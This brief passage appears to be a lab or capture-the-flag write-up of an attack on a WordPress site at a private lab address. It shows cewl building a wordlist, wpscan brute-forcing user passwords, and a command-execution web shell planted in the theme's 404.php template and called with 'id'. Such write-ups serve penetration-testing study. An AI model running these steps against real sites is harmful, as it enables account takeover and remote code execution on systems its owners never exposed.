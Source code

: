 We find a wordpress instance and more users in http://10.10.110.100:65000/wordpress/index.php/meet-the-team/

With cewl to create a wordlist in all links found: 
	`cewl <url> -w wordlist.txt

Found credentials by brute forcing with wpscan:
	`wpscan --url http://10.10.110.100:65000/wordpress -U ../users -P wordlist.txt`

Edit twentynineteen theme (404 template) and get RCE 
	http://10.10.110.100:65000/wordpress/wp-content/themes/twentynineteen/404.php?0=id